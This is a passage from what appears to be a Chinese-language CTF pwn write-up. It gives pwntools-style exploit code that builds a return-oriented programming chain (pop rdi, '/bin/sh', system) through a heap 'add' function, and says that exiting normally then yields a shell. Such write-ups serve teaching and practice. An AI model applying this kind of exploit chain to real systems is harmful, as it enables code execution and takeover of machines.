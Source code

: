 ```plain
pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)
```

在 add 函数的 rbp 后面构造 rop

[![](assets/1701606615-717bfcfbb0504453e37fb02347c6011c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213910-5b6b69c2-83bc-1.png)  
然后正常退出就能 getshell

```plain
menu(5)
```

[![](assets/1701606615-8b01d6289c79e50a76afd54a3b6230a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213924-63fcb3c0-83bc-1.png)
